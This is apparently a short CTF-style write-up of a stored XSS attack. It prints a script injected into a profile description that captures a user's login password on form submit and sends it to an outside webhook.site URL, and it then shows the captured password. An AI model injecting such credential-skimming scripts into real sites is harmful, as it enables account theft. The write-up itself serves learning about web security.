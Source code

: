 We exploit an XSS vulnerability by injecting the following script in the edit profile description form:
```html
<script>
document.addEventListener("DOMContentLoaded", () => {
    document.getElementById("authForm").addEventListener("submit", () => {
        var password = document.getElementById("authPassword").value;
        fetch("//webhook.site/5337230b-fd89-40b2-887b-0ea2d6eabd00?password=" + encodeURIComponent(password));
    })
});
</script>
```
The next time Jonas logs in we will receive the real password on our webhook:
`jeg!Har%Mest&LystTil&At%Være-En-Hacker`
